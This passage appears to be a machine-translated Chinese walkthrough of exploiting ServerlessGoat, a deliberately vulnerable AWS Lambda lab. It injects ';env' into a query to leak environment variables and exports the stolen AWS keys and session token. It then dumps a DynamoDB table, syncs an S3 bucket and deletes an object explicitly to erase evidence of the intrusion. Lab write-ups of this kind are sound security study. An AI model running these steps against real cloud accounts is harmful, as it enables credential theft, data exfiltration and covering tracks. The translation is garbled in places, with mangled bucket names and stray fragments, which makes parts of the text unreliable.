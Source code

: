 ```
      ACL: 'public-read'
    }).promise();

    return {
      statusCode: 302,
      headers: {
        "Location": `${process.env.BUCKET_URL}/${key}`
      }
    };
  }
  catch (err) {
    return {
      statusCode: 500,
      body: err.stack
    };
  }
}; 
```

这就是 Lambda 函数的内容！！😱

现在，我对 Node.js 的了解是有限的，至少可以说是有限的，但阅读代码时，首先要强调的是:`node-uuid`中存在依赖性，对 DynamoDB 表的引用存储请求信息，并且将在 S3 中写入大于 6MB 的 Word 文档，以及指向保存对象的链接我第一次分析时可能遗漏了一些东西，但没关系。

# S3

我首先感兴趣的是 DynamoDB 表，因为它可能包含敏感数据，所以我来看看我们可以用它做些什么。我不得不承认，尝试在 Node 上正确创建订单并没有让我兴奋(我提到 Node.js 不是我的强项吗？！)，所以我尝试了另一种方法。具体来说，由于我们以前成功地返回了数据，所以我想看看我们是否可以获得与函数相关的环境变量。

使用查询**[【https://your reallyhouldpayattention toserver security】；env](https://YouReallyShouldPayAttentionToServerlessSecurity)** 返回巨大的结果，显示密钥、会话令牌、S3 存储桶 URL、日志流等。因此，利用此信息，我们将尝试再次访问 DynamoDB 表。

[![](../Images/c88634eb9b58380d03c36c610304312d.png)](https://res.cloudinary.com/practicaldev/image/fetch/s--seWhqwgy--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thetestlabs.io/img/exploiting-serverless/env-variables.png)T3】

```
export AWS_ACCESS_KEY_ID=ASIAX6VC3CWRMPJG5VPA
export AWS_SECRET_ACCESS_KEY=BM6k5CwaS2M/65BRp/lUIzu8Z1nqEAXr+hSDS6+O
export AWS_SESSION_TOKEN=AgoJb3Jp......
aws dynamodb scan --table-name serverlessrepo-serverless-goat-Table-3DZUWAE16E6H --region eu-west-2 
```

我们成功了，从整个表中获得了一个“**”转储**，显示了发送到该站点的所有请求以及与该请求关联的 IP 地址。我们将尝试对 S3 的存储桶执行类似的操作，因为我们具有从函数的环境变量中捕获的 URL 名称。

【T3 ls 服务器重置-无服务器采空区-1 ayfxtlpuv 0h】列出了采空区的内容，假定我们可以访问该采空区，则可以使用**AWS 3 sync S3://server repo-server less-goat-bucket-1 ayfxtlpuv 0h】下载所有内容，这样，我们就会得到一个**转储**桶的全部内容。**

分析存储桶的内容时，它包含传送给它的请求的详细信息。因此，有我连同 IP 地址一起发送的格式不正确的请求的记录。别担心，因为下面的命令证明在存储桶中没有启用 MFA 删除，所以我可以删除我来过这里的所有记录！

```
aws s3api delete-object --bucket serverlessrepo-serverless-goat-bucket-1ayfjxtlpuv0h --key 5cde5d74-ea7b-43... 
```
